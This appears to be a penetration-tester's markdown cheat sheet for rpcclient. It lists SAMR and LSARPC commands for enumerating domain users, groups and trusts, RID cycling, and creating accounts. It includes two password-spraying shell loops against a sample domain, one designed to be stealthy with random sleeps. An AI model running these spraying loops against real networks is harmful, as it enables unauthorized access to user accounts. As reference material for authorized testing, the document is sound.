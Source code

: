 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# rpcclient
## Installation
* `apt install smbclient` to install rpcclient.

## Command Options

|Command|RPC Pipe|Output|
|:-:|:-:|:-:|
| `queryuser` |SAMR|Retrieve User Information|
| `querygroup` |SAMR|Retrieve Group Information|
| `queryuser` |SAMR|Retrieve User Information|
| `queryuser` |SAMR|Retrieve user information.
| `querygroup` |SAMR|Retrieve group information.
| `querydominfo` |SAMR|Retrieve domain information.
| `enumdomusers` |SAMR|Enumerate domain users.
| `enumdomgroups` |SAMR|Enumerate domain groups.
| `createdomuser` |SAMR|Create a domain user.
| `deletedomuser` |SAMR|Delete a domain user.
| `lookupnames` |LSARPC|Look up usernames to SID values.
| `lookupsids` |LSARPC|Look up SIDs to usernames (RID cycling).
| `lsaaddacctrights` |LSARPC|Add rights to a user account.
| `lsaremoveacctrights` |LSARPC|Remove rights from a user account.
| `dsroledominfo` |LSARPC-DS|Get primary domain information.
| `dsenumdomtrusts` |LSARPC-DS|Enumerate trusted domains within an AD forest

## Examples
* Example 1

		for user in $(cat users.txt); do password=Password1; echo -n "$user:$password:" && rpcclient -U "$user%$password" -c "getusername;quit" evilcorp.local; done | tee -a spray.log | grep -vi failure
	* NOTE: This sometimes reports "`NT_STATUS_LOGON_FAILURE`" even with a correct password!
* Example 2: More stealthy (shuffles usernames & sleeps randomly)

		for user in $(cat users.txt | shuf); do password=Password1; echo -n "$user:$password:" && rpcclient -U "$user%$password" -c "getusername;quit" evilcorp.local; sleep $(($RANDOM % 10)); done


* Execute commands

		rpcclient -c 'command' <target>
	* `-U`
* Options
	* <details><summary>rpcclient (Click to expand)</summary><p>`lsaquery`: get domain name and SID (Security IDentifier)

			root@kali:/# rpcclient -c 'lsaquery' 10.0.0.1 -U securelab/domain_user
			Enter SECURELAB\domain_user's password: 
			Domain Name: SECURELAB
			Domain Sid: S-1-5-21-1850020582-442782152-1341288763